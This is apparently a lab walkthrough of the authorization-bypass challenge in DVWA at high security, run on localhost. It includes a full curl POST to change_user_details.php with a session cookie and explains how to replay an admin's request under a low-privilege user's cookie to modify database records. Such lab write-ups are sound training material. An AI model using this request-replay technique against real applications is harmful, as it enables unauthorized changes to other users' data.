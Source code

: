 ```
curl 'http://localhost/DVWA/vulnerabilities/authbypass/change_user_details.php' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: application/json' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br, zstd' -H 'Referer: http://localhost/DVWA/vulnerabilities/authbypass/' -H 'Content-Type: application/json' -H 'Origin: http://localhost' -H 'Connection: keep-alive' -H 'Cookie: PHPSESSID=q2rt5eeucotrpq2vefvlnsfh9s; security=high' -H 'Sec-Fetch-Dest: empty' -H 'Sec-Fetch-Mode: cors' -H 'Sec-Fetch-Site: same-origin' -H 'Priority: u=0' --data-raw '{"id":5,"first_name":"Bob","surname":"Smith"}'
```
then visit same link but it will give unauthorized to gordonb user 
![](https://i.imgur.com/3Gyqiv2.png)

also it will show result fail like below photo so the other user is not allowed to do changes in db
![](https://i.imgur.com/qKSyUQk.png)

now collect the post request from admin to change the values in  db
![](https://i.imgur.com/O1eqW93.png)

use the same post request and change the user and password means account of gordonb and use his seesion cookie in the post request we copied
![](https://i.imgur.com/sWBhj2q.png)
then try to submit the request you will get the db updated showing in below image 
![](https://i.imgur.com/fk4B52F.png)
this way we can exploit the high level vuln
